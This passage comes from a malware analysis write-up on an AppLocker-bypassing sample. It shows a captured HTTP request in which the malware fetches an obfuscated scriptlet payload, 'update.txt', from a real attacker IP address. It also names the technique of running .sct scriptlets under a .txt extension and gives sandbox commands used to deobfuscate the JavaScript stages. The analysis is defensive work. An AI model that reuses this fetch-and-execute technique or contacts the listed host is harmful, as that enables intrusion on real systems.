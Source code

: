```
GET /update.txt HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)
Via: 1.1 vHNhtcL6WBSNPRD01 0AEC5970 
Host: 209.141.61.11

HTTP/1.1 200 OK
Server: nginx
Date: Fri, 02 Oct 2020 01:33:25 GMT
Content-Type: text/plain
Content-Length: 438034
Connection: keep-alive
Last-Modified: Thu, 27 Aug 2020 15:43:52 GMT
ETag: "5f47d4b8-6af12"
Accept-Ranges: bytes
```

now, `update.txt` is in our hands. Let's see how it looks like

![update.txt content](/img/malware-applocker-bypass/7.jpg "update.txt content")

`update.txt` looks like a XML `scriptlet` containing a heavily obfuscated `javascript` payload. Also, `.txt` extension won't stop the scriptlet from being executed [Reference](https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/). There have been similar malware before ([Reference](https://twitter.com/DissectMalware/status/988620768702550016?s=20)) Starting point is here:

![update.txt obfuscated js](/img/malware-applocker-bypass/8.jpg "update.txt JS starting point")

1000+ lines of JS code, with a very interesting-looking char table:

![js char table](/img/malware-applocker-bypass/9.jpg "js char table")

After scratching my head for hours on this JS, I finally came up with a way to de-obfuscate some of the malware. Using the awesome project [malware-jail](https://github.com/HynekPetrak/malware-jail), I was able to decode a piece of the malware that could be the next key (Artifact #8, `ecd80124a34daf7d8a7a73ee412aabc977313888c8d70c2190b306ed28dc72f9`, VT N/A). This leads us to Stage 3 of the malware

## Stage 3, another JS

![Stage 3 JS](/img/malware-applocker-bypass/11.jpg "Stage 3 JS")

After adding the variables from "stage2" to "stage3", I created the file `artifact9.js` (Artifact #9, `4dbb4755cbe105673725055f090ff830f042e8809c1a708db5c044f93dbcb6b4`, VT N/A).nsv

```shell
set -e
node jailme.js -e env/utils.js -e env/eval.js -e env/function.js -e env/wscript.js -e env/other.js -e env/console.js --down=y ../try2/output.txt.js
cp sandbox_dump_after.json ../try2/output.txt.js-dumpafter
cp output/.._try2_output.txt.js ../try2/output.txt.js-output
cp "output/Function[5].js" ../try2/Function14.js
sed -i 's/nvmlxxyx7511.nvmlxxyx539/nvmlxxyx31()/' ../try2/Function14.js
node jailme.js -c ./config.json -e env/utils.js -e env/eval.js -e env/function.js -e env/wscript.js -e env/other.js -e env/console.js  -e ../try2/output.txt.js-output -e ../try2/env-dummy.js --down=y ../try2/Function14.js

```
